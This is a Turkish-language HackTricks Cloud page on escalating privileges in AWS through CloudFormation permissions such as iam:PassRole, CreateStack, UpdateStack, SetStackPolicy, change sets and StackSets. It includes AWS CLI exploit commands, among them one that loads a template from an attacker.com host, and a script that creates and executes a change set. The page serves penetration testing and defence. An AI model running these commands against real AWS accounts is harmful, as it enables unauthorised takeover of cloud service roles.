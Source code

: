 # AWS - Cloudformation Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## cloudformation

Cloudformation hakkında daha fazla bilgi için kontrol edin:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Bu izinlere sahip bir saldırgan, **belirtilen bir rolün izinleri altında eylemler gerçekleştirmek için** kendi sunucusunda barındırılan özel bir şablon ile bir **CloudFormation yığını** oluşturarak **yetkileri artırabilir:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Aşağıdaki sayfada **`cloudformation:DescribeStacks`** ek izni ile bir **istismar örneği** bulacaksınız:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Bu durumda, **mevcut bir cloudformation yığınını** istismar ederek güncelleyebilir ve önceki senaryodaki gibi ayrıcalıkları artırabilirsiniz:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Belirtilen cloudformation hizmet rolüne privesc.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Bu izne sahipseniz ancak **`iam:PassRole` yoksa**, yine de **kullanılan yığınları güncelleyebilir** ve **zaten eklenmiş IAM Rolleri** kötüye kullanabilirsiniz. Sömürü örneği için önceki bölüme bakın (güncellemeye herhangi bir rol belirtmeyin).

`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `UpdateStack` izni vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** Zaten eklenmiş cloudformation hizmet rolüne privesc.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bir rolü **geçme ve bir ChangeSet oluşturma & yürütme** iznine sahip bir saldırgan, **yeni bir cloudformation yığını oluşturup/güncelleyerek cloudformation hizmet rollerini** CreateStack veya UpdateStack ile olduğu gibi kötüye kullanabilir.

Aşağıdaki sömürü, **ChangeSet izinlerini** kullanarak bir yığın oluşturmanın **bir varyasyonudur**[ **CreateStack bir**](./#iam-passrole-cloudformation-createstack).
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` izni, bir yığın üzerinde **kendinize `ChangeSet` izinleri vermek** için kullanılabilir ve saldırıyı gerçekleştirebilirsiniz.

**Olası Etki:** cloudformation hizmet rollerine privesc.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Bu, **IAM rollerini** geçmeden önceki yöntem gibidir, bu nedenle sadece **zaten eklenmiş olanları kötüye kullanabilirsiniz**, sadece parametreyi değiştirin:
```
--change-set-type UPDATE
```
**Olası Etki:** Zaten ekli olan cloudformation hizmet rolüne privesc.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Bir saldırgan, bu izinleri kötüye kullanarak StackSet'ler oluşturabilir/güncelleyebilir ve keyfi cloudformation rollerini kötüye kullanabilir.

**Olası Etki:** Cloudformation hizmet rollerine privesc.

### `cloudformation:UpdateStackSet`

Bir saldırgan, passRole izni olmadan bu izni kötüye kullanarak StackSet'leri güncelleyebilir ve ekli cloudformation rollerini kötüye kullanabilir.

**Olası Etki:** Ekli cloudformation rollerine privesc.

## Referanslar

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
